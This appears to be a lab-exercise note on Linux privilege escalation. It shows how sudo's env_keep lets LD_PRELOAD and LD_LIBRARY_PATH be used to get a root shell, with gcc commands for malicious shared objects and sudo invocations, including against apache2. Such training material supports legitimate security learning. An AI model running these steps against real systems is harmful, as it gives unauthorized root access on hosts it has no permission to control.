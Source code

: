 ## LDS - Sudo
​
Sudo can be configured to inherit certain environment variables from the user's environment.
​
Check which environment variables are inherited (look for the env_keep options):
​

>[!Tip] Chebra
>```
>sudo -l
>```

​
LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.
​
​
### LD PRELOAD
​
Create a shared object using the code located at /home/{user/tools/sudo/preload.c:
​

>[!Tip] Chebra
>```
>gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
>```

​
Run one of the programs you are allowed to run via sudo (listed when running **sudo -l**), while setting the LD_PRELOAD environment variable to the full path of the new shared object:
​

>[!Tip] Chebra
>```
>sudo LD_PRELOAD=/tmp/preload.so {program-name-here}
>```

​
A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.
​
​
### LD LIBRARY
​
Run ldd against the apache2 program file to see which shared libraries are used by the program:
​

>[!Tip] Chebra
>```
>ldd /usr/sbin/apache2
>```

​
Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:
​

>[!Tip] Chebra
>```
>gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
>```

​
Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):
​

>[!Tip] Chebra
>```
>sudo LD_LIBRARY_PATH=/tmp apache2
>```

​
A root shell should spawn. Exit out of the shell. Try renaming /tmp/libcrypt.so.1 to the name of another library used by apache2 and re-run apache2 using sudo again. Did it work? If not, try to figure out why not, and how the library_path.c code could be changed to make it work.sudo LD_LIBRARY_PATH=/tmp apache2